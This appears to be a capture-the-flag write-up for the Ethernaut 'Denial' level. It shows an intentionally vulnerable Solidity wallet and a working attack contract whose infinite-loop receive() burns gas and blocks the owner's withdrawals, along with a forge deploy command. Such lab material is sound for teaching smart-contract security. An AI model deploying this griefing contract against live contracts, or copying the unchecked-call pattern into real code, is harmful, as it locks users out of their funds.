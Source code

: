 ## Denial Level Outline

**Difficulty : 5/10**

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xf1D573178225513eDAA795bE9206f7E311EeDEc3)

## Solution

This level has a very similar solution to level 9_King.

### Walkthrough

1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Contract {
    Denial denial;

    constructor(address _denial) {
        denial = Denial(_denial);
        denial.setWithdrawPartner(address(this));
    }

    receive() external payable {
        while(true) {
            // lets burn some gas
        }
    }

}

interface Denial {
    function setWithdrawPartner(address) external;
}
```

2. deploy our new contract
```console
forge create src/Contract.sol:Contract --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

### Important Lesson From This Level
This level demonstrates that external calls to unknown contracts can still create **denial of service attack vectors** if a fixed amount of gas is not specified.
